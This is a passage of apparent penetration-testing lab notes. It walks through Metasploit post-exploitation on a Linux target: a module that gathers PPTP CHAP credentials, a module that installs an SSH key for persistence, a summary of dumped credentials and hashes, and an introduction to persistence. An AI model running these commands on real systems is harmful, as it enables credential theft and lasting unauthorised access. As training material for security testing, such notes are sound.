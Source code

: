 ![grafik](https://github.com/user-attachments/assets/db043d59-67e1-4fb9-9c6a-a9d64ec9d674)

### PPTP Chap Secrets

Use the **pptpd_chap_secrets** module to gather credentials from PPTP configuration files:

```bash
use post/linux/gather/pptpd_chap_secrets
set session 2
run
```

![grafik](https://github.com/user-attachments/assets/35ac9f88-e0d9-426f-b556-e7ab4ab96184)

### Establishing SSH Key Persistence

Use the **sshkey_persistence** module to maintain persistence on the target system by installing an SSH key:

```bash
use post/linux/manage/sshkey_persistence
set session 2
run
```

![grafik](https://github.com/user-attachments/assets/1646b5d5-e29e-4529-b405-c41ab0b3aced)

### Summary of Gathered Information

With the help of various Metasploit modules, we gathered the following information:

![grafik](https://github.com/user-attachments/assets/50777c25-c7db-4ad5-a444-2e2512508391)

### Conclusion

What we accomplished:
- Exploited the target system using the **Samba exploit** and gained initial access.
- Upgraded the shell session to a **Meterpreter session**.
- Used various **post-exploitation modules** to gather SSH, Docker, and phpMyAdmin credentials.
- Dumped password hashes and gathered additional sensitive information from the system, including eCryptfs directories and PSKs.
- Installed an SSH key to maintain persistence on the target system.

# Establishing Persistence On Linux

- Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.
- Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
- The persistence techniques we can utilize will depen on the target configuration.
- We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.
